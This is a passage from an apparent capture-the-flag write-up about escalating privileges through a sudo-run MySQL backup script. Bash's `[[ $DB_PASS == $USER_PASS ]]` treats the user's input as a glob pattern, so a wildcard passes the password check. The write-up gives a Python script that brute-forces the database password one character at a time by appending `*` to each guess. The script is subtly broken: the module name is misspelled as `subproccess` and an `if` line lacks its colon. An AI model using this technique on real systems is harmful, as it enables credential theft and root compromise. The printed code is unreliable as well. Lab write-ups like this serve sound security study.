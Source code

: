 ```

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The vulnerability in the script is related to how the password confirmation is handled:

```
if [[ $DB_PASS == $USER_PASS ]]; then
    /usr/bin/echo "Password confirmed!"
else
    /usr/bin/echo "Password confirmation failed!"
    exit 1
fi
```

This section of the script compares the user-provided password (USER_PASS) with the actual database password (DB_PASS). The vulnerability here is due to the use of == inside [[ ]] in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (USER_PASS) is treated as a pattern, and if it includes glob characters like * or ?, it can potentially match unintended strings.

For example, if the actual password (DB_PASS) is password123 and the user enters * as their password (USER_PASS), the pattern match will succeed because * matches any string, resulting in unauthorized access.

This means we can bruteforce every char in the DB_PASS.

### Exploiting Pattern Matching

I wrote a Python script that exploits this by testing password prefixes and suffixes to slowly reveal the full password.

It builds up the password character by character, confirming each guess by invoking the script via sudo and checking for a successful run.

```
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```
